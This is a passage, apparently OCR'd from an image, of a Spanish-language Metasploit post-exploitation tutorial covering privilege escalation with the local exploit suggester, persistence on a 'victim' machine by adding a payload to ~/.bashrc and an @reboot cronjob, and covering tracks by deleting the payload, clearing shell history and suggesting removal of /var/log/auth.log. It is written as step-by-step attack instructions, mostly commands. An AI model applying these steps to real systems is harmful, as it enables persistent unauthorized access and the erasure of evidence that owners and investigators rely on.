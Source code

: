⚠️ Esta función es limitada en Linux.

---

#### 6️⃣ Escalada de privilegios

##### Usando `post/linux/local/exploit_suggester`

1. Vuelve a la consola de Metasploit:

```bash
background
use post/linux/gather/enum_linux
set SESSION <ID>
run
```

Esto enumera la configuración del sistema.

##### Exploit local sugerido:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <ID>
run
```

Te dirá si puedes escalar a root.

---

#### 7️⃣ Crear persistencia manual

Puedes programar que se ejecute el payload cada vez que se inicie sesión:

##### A. Agrega al `~/.bashrc` del usuario víctima:

```bash
echo "~/shell.elf &" >> ~/.bashrc
```

##### B. Crear cronjob

```bash
(crontab -l ; echo "@reboot /home/user/shell.elf") | crontab -
```

---

#### 8️⃣ Limpiar huellas

```bash
rm ~/shell.elf
history -c
```

⚠️ También puedes borrar logs del sistema: `/var/log/auth.log`, pero cuidado con romper el sistema.

---
